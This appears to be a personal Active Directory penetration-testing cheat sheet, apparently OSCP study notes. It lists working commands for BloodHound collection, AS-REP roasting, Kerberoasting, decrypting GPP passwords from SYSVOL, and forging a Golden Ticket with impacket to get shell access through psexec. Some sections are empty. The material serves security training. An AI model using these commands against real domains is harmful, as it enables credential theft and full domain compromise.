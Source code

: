 # Cheat Sheet

## Bloodhound

### Collection

#### SharpHound

```bash
```

#### BloodHound.py

```bash
# Installation
pip3 install bloodhound
# Binary
bloodhound-python
# Command
bloodhound-python -u <username> -p <password> -ns <IP> -d <domain.local> -c All
# Copy json output file into Bloodhound
```

### Enumeration



#### Node Info

* Can search and select a specific user, machine, etc. where you can get details of it.
* Can right click on user in graph and mark as owned.
* Can right click on permission and click on Help.

#### Queries

* Find AS-REP Roastable Users (DontReqPreAuth)&#x20;
* Find Shortest Paths to Domain Admin
* Shortest Paths to Domain Admins from Owned Principals

## AS-REP Roasting

> Must have a username or list of usernames to perform

### GetNPUsers

```bash
# From Kali
GetNPUsers.py <domain.local>/<username> -dc-ip=<IP>
# Look "getting its TGT"
$krb5asrep$23$<username>@<domain.local>:12345...
# Then can attempt to brute force offline with John or Hashcat
```

## Kerberoasting

> Must have an already compromised account to authenticate with

### GetUserSPNs

```bash
# From Kali
GetUserSPNs -dc-ip <IP> <domain.local>/<compromised username>
# A list of accounts with SPNs should show along with the account name, etc.
GetUserSPNs -dc-ip <IP> <domain.local>/<compromised username> -request
# Look for the hash in the output
$krb5tgs$23$*<Username>$<domain.local$<domain.local>/<username*>$12345...
# Then can attempt to brute force offline with John or Hashcat
```

## GPP Credentials

> Must have an already compromised account to authenticate with

### Get-GPPPassword.ps1

```bash
# From Windows Target
findstr /S /I cpassword \\<domain.local>\sysvol\<domain.local>\policies\*.xml
# Look for the cpassword= value
cpassword="<value>"
# Then can attempt to decrypt them offline using PowerSploit's Get-GPPPassword.ps1
Get-GPPPassword
# Look for Password value output
```

## Silver Ticket

## Golden Ticket

### From Linux

#### Impacket

After dumping the hashes, we will use the `krbtgt` user and hash that was found.

```bash
# From Target: Get Domain SID via PowerShell cmdlet
Get-ADDomain htb.local  # Look for DomainSID
# From Kali
python ticket.py <nt-hash> -domain-sid <DomainSID> -domain htb.local <fake-username>
export KRB5CCNAME=<fake-username>.cache
# Then use psexec
psexec.py htb.local/<fake-username>@<IP> -k -no-pass  # Using IP
psexec.py htb.local/<fake-username>@<DOMAIN> -k -no-pass  # May need to user domain
# DEBUG
## Redo steps replaceing <fake-username> with administrator
# Can also try wmiexec, smbexec
```

#### Mimikatz

## Resources

#### Mind Maps

AD - [https://www.xmind.net/m/5dypm8/](https://www.xmind.net/m/5dypm8/)

General Enumeration - [https://www.xmind.net/m/QsNUEz/](https://www.xmind.net/m/QsNUEz/)

#### WADComs

[https://wadcoms.github.io/](https://wadcoms.github.io/)

#### Methodology

[https://book.hacktricks.xyz/windows/active-directory-methodology](https://book.hacktricks.xyz/windows/active-directory-methodology)

[https://www.thehacker.recipes/](https://www.thehacker.recipes/)

[https://www.ired.team/](https://www.ired.team/)

#### Resources

[https://github.com/S1ckB0y1337/Active-Directory-Exploitation-Cheat-Sheet](https://github.com/S1ckB0y1337/Active-Directory-Exploitation-Cheat-Sheet)

[https://zer1t0.gitlab.io/posts/attacking\_ad/](https://zer1t0.gitlab.io/posts/attacking\_ad/)

[https://gist.github.com/TarlogicSecurity/2f221924fef8c14a1d8e29f3cb5c5c4a](https://gist.github.com/TarlogicSecurity/2f221924fef8c14a1d8e29f3cb5c5c4a)

[https://github.com/61106960/adPEAS](https://github.com/61106960/adPEAS)

#### Writeups

[https://infosecwriteups.com/active-directory-penetration-testing-cheatsheet-5f45aa5b44ff](https://infosecwriteups.com/active-directory-penetration-testing-cheatsheet-5f45aa5b44ff)

[https://n0h4ts.medium.com/passing-the-new-oscp-b9fcd434ade7](https://n0h4ts.medium.com/passing-the-new-oscp-b9fcd434ade7)
